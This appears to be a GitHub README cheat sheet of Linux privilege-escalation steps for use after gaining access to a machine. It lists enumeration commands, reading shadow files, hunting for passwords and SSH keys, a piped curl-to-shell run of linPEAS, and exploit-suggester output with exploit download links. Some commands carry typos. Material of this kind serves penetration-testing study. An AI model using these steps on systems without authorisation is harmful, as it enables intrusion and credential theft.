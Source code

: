 # LinuxPrivEsc
Linux Privilege Escalation techniques &amp; resources

- [Enumeration](#enumeration)
  - [system enum](#system-enum)
  - [user enum](#user-enum)
  - [network enum](#network-enum)
- [password hunting](#password-hunting)
- [Automated tools](#automated-tools)
  - [linpeas](#linpeas)
  - [linenum](#linenum)
  - [linux exploit suggestor](#linux-exploit-suggestor)
  - [Linuxprivchecker](#linuxprivchecker)



# 
## Enumeration

We assume that first exploited & have access to the m/c,
But the user is non admin. now we have to go through the stages of 5
stage methodlogy to escalate the priviledge .

### System enum

`uname -a` // look for version & search for exploit

`cat /etc/issuse` // look for distribution

`cat /proc/version`

`lscpu`

`ps aux`

**what kernel are we on ? is it vuln to anything arch?**

### User enum

we're going to find out who we are, what permissions we have & what we're capable of doing.

`whoami`

`id`

`sudo -l` // list out what commands we can run as sudo

`cat passwd / shadow / groups` // what file we can access

`history`

**look for sudo escalations**

`sudo su -`

### Network enum

Net enum is important in a sense that it lets us see what the ip architecture is, what ports are open,what we're interacting with.

`ip a` 

sometimes a network can have two adapters in it, or might have nic's in, dual netwok.

`ip route` // to check the route

**check for arp table**

`ip neigh`

**what ports are open & what communication exists?**

`netstat -ano`

check which mc's are talking to the target & if needed to exploit or listen to trafic etc. 

#

## Password hunting

### Colour code search items

`grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`

color the word password wherever it finds.

`locate password` // search for file named password (be creative like pass, pwd etc)

`find /name id_rsa 2> /dev/null`

get decent in searching through files

best enums are like going through 100s & 1000s of line just to find the password.

look for interesting files that might contain password.

#
## Automated Tools

## Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

### Basic Usage

```sh
curl wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

## LinEnum

https://github.com/rebootuser/LinEnum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

### Basic Usage

```sh
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

## Linux Exploit suggestor

https://github.com/mzet-/linux-exploit-suggester

### Usage & example output

```sh
./les.sh
```
```sh
Possible Exploits:

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```
## Linuxprivchecker py
https://github.com/sleventyeleven/linuxprivchecker

### Usage

```sh
python linuxprivchecker.py
```
